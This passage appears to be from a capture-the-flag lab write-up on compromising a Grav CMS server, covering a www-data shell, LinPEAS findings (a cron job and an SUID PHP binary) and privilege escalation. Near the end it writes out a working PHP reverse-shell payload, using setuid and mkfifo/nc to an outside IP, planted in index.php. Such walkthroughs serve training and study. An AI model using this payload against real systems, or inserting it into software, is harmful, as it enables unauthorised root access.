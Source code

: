 ```
Process 67283 created.                                                                                                                                                                   
Channel 0 created.                                                                                                                                                                       
whoami                                                                                                                                                                                   
www-data
```

We have a shell as user `www-data`!

## Privilege Escalation

12) Ran LinPEAS on the machine

From the output we gather some useful info:

- We have a cronjob running the grav binary:

> LinPEAS marked this as 95% change PE vector...

```
???????????? Cron jobs
? https://book.hacktricks.xyz/linux-hardening/privilege-escalation#scheduled-cron-jobs                                                                                                   
/usr/bin/crontab                                                                                                                                                                         
* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1
```

- The `php7.4` (php) binry has `setuid` capabilities

```
-rwsr-xr-x 1 root root 4.6M Feb 23  2023 /usr/bin/php7.4 (Unknown SUID binary!)
```

 Most promising things:

- take a look at `/var/www/html/grav-admin` and try puting a php reverse shell somewhere
- can we modify the config in `/etc/php/7.4/apache2/php.ini` to run arbitrary code?
- can we modify the config in `/etc/php/7.4/cli/php.ini` to run arbitrary code?

13) We go snooping in the `/var/www/html/grav-admin` directory searching for php files to put a reverse shell in:

I'll try the `index.php` file first:

> I first back it up with `cp index.php index.php.bak` in case we break the server

```
echo '<?php @posix_setuid(0); system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 443 >/tmp/f"); ?>' > index.php

cat index.php
<?php @posix_setuid(0); system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.49.51 443 >/tmp/f"); ?>
```
